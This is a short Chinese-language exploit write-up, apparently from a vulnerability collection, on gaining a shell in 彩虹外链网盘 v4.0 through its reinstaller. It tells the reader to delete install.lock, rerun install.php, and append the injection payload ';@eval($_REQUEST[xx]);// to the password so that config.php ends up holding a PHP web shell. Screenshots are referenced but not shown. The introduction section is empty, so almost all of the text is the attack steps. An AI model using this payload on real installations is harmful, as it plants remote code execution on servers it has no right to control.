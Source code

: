 彩虹外链网盘 v4.0 重装getshell
==============================

一、漏洞简介
------------

二、漏洞影响
------------

彩虹外链网盘 v4.0

三、复现过程
------------

在删除install.lock后,访问install.php
其他的原来的读取的配置,密码后面加上`';@eval($_REQUEST[xx]);//`

![13.png](./.resource/彩虹外链网盘v4.0重装getshell/media/rId24.png){width="5.833333333333333in"
height="4.9203926071741035in"}

此时的config.php如下,而且由于我们用的是原来的配置,网站不会崩

![14.png](./.resource/彩虹外链网盘v4.0重装getshell/media/rId25.png){width="5.833333333333333in"
height="4.231375765529309in"}

代码执行成功

![15.png](./.resource/彩虹外链网盘v4.0重装getshell/media/rId26.png){width="5.833333333333333in"
height="1.143261154855643in"}
